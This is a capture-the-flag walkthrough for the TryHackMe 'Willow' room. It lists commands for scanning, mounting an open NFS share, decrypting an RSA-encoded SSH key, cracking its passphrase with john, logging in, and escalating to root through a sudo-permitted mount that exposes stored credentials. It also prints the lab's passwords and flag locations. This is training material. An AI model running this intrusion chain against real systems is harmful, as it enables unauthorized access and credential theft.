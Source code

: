 [Willow](https://tryhackme.com/room/willow)

# What lies under the Willow Tree?

## Grab the flags from the Willow

### User Flag:

_https://muirlandoracle.co.uk/2020/01/29/rsa-encryption/_

1. Scan the target system to identify available services

```bash
nmap IP
```

[SCREEN01]

2. Network File System (NFS) often contains sensitive information that can be accessed without authentication
   - Public Key Pair: (23, 37627)
   - Private Key Pair: (61527, 37627)

```bash
showmount -e IP
mkdir /nfs_mount
mount -t nfs IP:/var/failsafe /nfs_mount/
ls -la /nfs_mount/
cat /nfs_mount/rsa_keys
```

[SCREEN02]

3. Navigate to the web server `http://IP:80` and analyze the content. The webpage contains a hex-encoded message. Use [CyberChef](https://gchq.github.io/CyberChef/) with the "From Hex" operation to decode it.

[SCREEN03]

4. Using the RSA private key parameters found in the NFS share, decrypt the encoded message

```python
encrypted = "2367 2367 2367 2367 2367 ... 2367 2367 2367 2367 2367"

n = 37627
d = 61527

rsakey = ""

for s in encrypted.split(" "):
	decrypt = (int(s)**d) % n
	rsakey += chr(decrypt)

print(rsakey)
```

[SCREEN04]

5. The decrypted RSA key is password-protected and needs to be cracked
   - The password is **wildflower**

```bash
chmod 600 willow_key
/opt/john/ssh2john.py willow_key > willow_key.hash
john willow_key.hash --wordlist=/root/Tools/wordlists/rockyou.txt
ssh -i willow_key willow@IP
```

[SCREEN05]

6. User flag is on the `user.jpg` image

```bash
scp -i willow_key willow@IP:/home/willow/user.jpg /root/user.jpg
```

[SCREEN06]

---

### Root Flag:

_Where, on a Linux system, would you first look for unmounted partitions?_

1. Check for privilege escalation opportunities

```bash
sudo -l
ls -la /dev/
```

[SCREEN07]
[SCREEN08]

2. Mount the discovered hidden backup device

```bash
mkdir /tmp/backup
sudo /bin/mount /dev/hidden_backup /tmp/backup
ls -la /tmp/backup
cat /tmp/backup/creds.txt
```

[SCREEN09]

3. Log in as root, and check the `root.txt` file

```bash
su root
# Password: 7QvbvBTvwPspUK
cat /root/root.txt
```

[SCREEN10]

4. Return to the `user.jpg` file and extract the hidden root flag

```bash
steghide extract -sf user.jpg
# Password: 7QvbvBTvwPspUK
cat root.txt
```

[SCREEN11]
